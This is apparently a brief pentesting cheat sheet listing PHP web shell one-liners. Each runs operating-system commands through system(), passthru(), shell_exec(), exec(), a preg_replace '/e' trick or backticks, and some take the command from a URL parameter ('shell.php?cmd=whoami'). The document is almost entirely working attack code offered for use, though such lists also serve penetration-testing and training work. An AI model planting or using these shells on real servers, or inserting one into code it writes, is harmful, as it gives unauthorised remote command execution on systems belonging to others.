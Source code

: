 # checking phase:
- Execute one command
```
<?php system("whoami"); ?>
``` 
# Take input from the url paramter. shell.php?cmd=whoami
```
<?php system($_GET['cmd']); ?>
``` 
# The same but using passthru
```
<?php passthru($_GET['cmd']); ?>
``` 
# For shell_exec to output the result you need to echo it
```
<?php echo shell_exec("whoami");?>
```
# Exec() does not output the result without echo, and only output the last line so isnt useful
```
<?php echo exec("whoami");?>
``` 
# Instead to this if you can. It will return the output as an array, and then print it all.
```
<?php exec("ls -la",$array); print_r($array); ?>
```
# preg_replace(). This is a cool trick
```
<?php preg_replace('/.*/e', 'system("whoami");', ''); ?>
```
# Using backticks
```
<?php $output = `whoami`; echo "<pre>$output</pre>"; ?>
```
# Using backticks
```
<?php echo `whoami`; ?>
```
